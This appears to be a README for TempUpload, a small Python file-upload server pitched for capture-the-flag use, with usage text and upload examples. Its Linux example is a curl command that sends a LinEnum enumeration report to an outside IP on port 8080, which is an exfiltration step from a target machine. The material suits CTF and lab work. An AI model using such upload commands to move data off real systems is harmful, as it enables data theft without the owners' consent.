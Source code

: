 ## TempUpload

A Upload Server For temporary use mostly helpful in ctfs etc.


## Features

- Works Fine on Both Windows and Linux.
- `localhost/list` => List all Files in Working Directory
- `localhost/upload` => Upload using Browser
- Only Uploading is implemented Directory listing is disabled 
- ['.py,'.ipynb'] are blacklisted can be changed in code.


## Uploading Using CLI

### Linux
- Using Curl
```shell
curl -F filename=@LinEnum_report 10.10.14.23:8080
```


### Windows Powershell
- Uploading via powershell depends on powershell version, check powershell.txt for more commands
- I would Strongly recommend using curl.exe `https://curl.se/download.html`
```shell
$Uri = 'http://localhost:8080/'
$Form = @{
    filename     = Get-Item -Path 'c:\Pictures\jdoe.png'
}
$Result = Invoke-WebRequest -Uri $Uri -Method Post -Form $Form
```

### Usage
```shell
$ python upserver.py -h
usage: upserver.py [-h] [-p PORT] [-d DIRECTORY]

A Simple http server to upload for temporary use

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port to use avoid using 80,443 for non root user
  -d DIRECTORY, --directory DIRECTORY
                        Working Directory

```


## Built With

* [Python3]

### License
